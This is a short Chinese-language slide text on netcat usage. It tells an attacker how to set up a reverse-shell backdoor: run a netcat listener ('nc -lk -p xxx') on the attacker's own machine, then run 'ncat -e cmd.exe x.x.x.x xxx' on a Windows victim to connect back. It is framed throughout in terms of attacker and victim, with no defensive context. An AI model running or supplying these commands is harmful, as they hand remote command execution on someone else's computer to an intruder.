

netcat用法
方法

nc -lk -p xxx
　既然 nc 的“服务端”与“客户端”对调。因此攻击者要先在自己机器上运行“服务端 nc”，命令如下（其中的 xxx 是端口号）。当然啦，攻击者自己电脑的防火墙需要允许xxx端口号对外监听。

ncat -e cmd.exe x.x.x.x xxx
如果受害者是 Windows 系统，只须如下命令就可以开启一个后门。